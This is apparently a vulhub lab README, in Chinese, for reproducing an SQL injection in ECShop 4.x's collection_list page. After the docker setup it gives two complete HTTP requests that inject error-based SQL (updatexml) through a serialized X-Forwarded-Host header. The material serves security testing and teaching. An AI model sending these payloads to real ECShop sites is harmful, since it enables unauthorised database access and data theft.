




# ECShop 4.x collection_list SQL注入

## 漏洞描述

ECShop是上海商派网络科技有限公司（ShopEx）旗下——B2C独立网店系统，适合企业及个人快速构建个性化网上商店，系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

参考阅读：

- https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw
- http://foreversong.cn/archives/1556

## 环境搭建

执行以下命令启动 ECShop 4.0.6：

```
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080`安装向导。数据库地址填写为`mysql`，用户名和密码均为`root`。



注册普通用户user。



## 漏洞复现

该漏洞的原理与[xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)类似，可以利用任意`insert_`函数来实现SQL注入。

有多种`insert_`函数可以使用。例如，`insert_user_account`：

```
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
```



请注意，您应该首先以普通用户身份登录。

`insert_pay_log`用作 POC ：

```
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
```



